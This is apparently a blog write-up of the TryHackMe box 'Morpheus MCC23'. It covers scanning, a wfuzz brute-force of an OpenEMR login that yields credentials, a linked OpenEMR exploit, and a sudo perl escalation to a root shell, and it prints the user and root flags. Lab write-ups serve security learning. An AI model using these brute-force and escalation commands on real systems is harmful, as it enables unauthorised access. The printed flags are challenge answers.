 +++
title = 'Morpheus MCC23 [B2R]'
date = 2025-01-23T10:27:44+08:00
draft = false
tags = ["Boot 2 Root", "TryHackMe"]
+++

Morpheus is a THM box created for MCC 2023 registration. I am not a MCC 2023 candidate but this is my take on this box :3 
# Initial Recon

## Nmap

```
nmap -sC -sV 10.10.13.181 -oA nmap/initial
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 05:56 EST
Nmap scan report for 10.10.13.181
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.22.45
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 65534    65534     1075835 May 27  2023 CONFIDENTIAL.pdf
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c9:c9:90:01:44:d3:be:ce:8f:ed:9d:f5:79:fe:1d:01 (RSA)
|   256 67:43:55:86:5a:6b:db:80:13:68:d1:ee:0f:76:8d:47 (ECDSA)
|_  256 8c:e1:85:36:1d:ba:77:05:95:36:4e:c3:3b:33:aa:5c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.88 seconds

```

Based on our port scanning result, there is a web server. Time to look into it

## Directory enumeration

```
gobuster dir -u http://10.10.13.181/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.13.181/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/management           (Status: 301) [Size: 317] [--> http://10.10.13.181/management/]
/backup               (Status: 301) [Size: 313] [--> http://10.10.13.181/backup/]

```

found `/management` and `/backup` 

### management directory

![/images/morpheus/morpheus-1.png](/images/morpheus/morpheus-1.png)

### backup directory

![/images/morpheus/morpheus-2.png](/images/morpheus/morpheus-2.png)

### Key takeaway

- got the usernames and passwords list
- bruteforce the login page at `/management`

# Bruteforcing Login page

Using WFUZZ we can see what input will create different response
## Initial bruteforce command

```bash
wfuzz -c -z file,username.txt -z file,password.txt -d "new_login_session_management=1&authProvider=Default&authUser=FUZZ&clearPass=FUZ2Z&languageChoice=1" "http://10.10.13.181/management/interface/main/main_screen.php?auth=login&site=default"
```

![/images/morpheus/morpheus-3.jpg](/images/morpheus/morpheus-3.jpg)

now we can exclude the length = 12 using `--hl 12`

## Final Bruteforce command

```bash
wfuzz -c -z file,username.txt -z file,password.txt --hl 12 -d "new_login_session_management=1&authProvider=Default&authUser=FUZZ&clearPass=FUZ2Z&languageChoice=1" "http://10.10.13.181/management/interface/main/main_screen.php?auth=login&site=default"
```

![/images/morpheus/morpheus-4.jpg](/images/morpheus/morpheus-4.jpg)


morpheus:gooniegoogoo

# Gaining foothold

By using the credetials we get to log into the OpenEMR system, then we can find the version of the system

![/images/morpheus/morpheus-5.png](/images/morpheus/morpheus-5.png)

By searching the version of this OpenEMR, we can find the CVE including exploit for it

- https://github.com/EmreOvunc/OpenEMR_Vulnerabilities

Using the exploit from the link above, we can get a shell

![/images/morpheus/morpheus-6.png](/images/morpheus/morpheus-6.png)


we can get the User Flag

`mcc2023{dd6900-2f1248-6c5e20-48331d-05280d-8deab1-cde577-1e2f16-339fcd-36a90c}`

# Privilege Escalation

![/images/morpheus/morpheus-7.png](/images/morpheus/morpheus-7.png)

theres no need for us to enter the password to use perl as root. looking at gtfo bins we can find the command to exploit this. 

```
sudo perl -e 'exec "/bin/sh";'
```

we can alter the command to give the flag

```
sudo perl -e 'exec "cat /root/root.txt";'
```

root flag

`mcc2023{a0baeb2849_6fd7ad460c_209045e194_08b3b6d5e8_1b6a800746_7e3702b95b}`